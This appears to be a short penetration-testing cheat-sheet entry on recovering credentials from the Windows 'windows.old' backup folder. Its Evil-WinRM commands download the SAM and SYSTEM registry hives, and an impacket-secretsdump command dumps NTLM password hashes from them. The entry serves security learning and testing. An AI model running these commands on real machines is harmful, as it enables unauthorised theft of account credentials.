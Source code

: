 # windows.old

`C:\windows.old` contains backup files, of which we can harvest credentials from.

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SAM
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SYSTEM
```

We can now dump credentials with the following command:

```bash
impacket-secretsdump LOCAL -sam SAM -system SYSTEM
```

The output will be in the following formatting:

```
Username:UserID:LM Hash:NTLM Hash:::
```
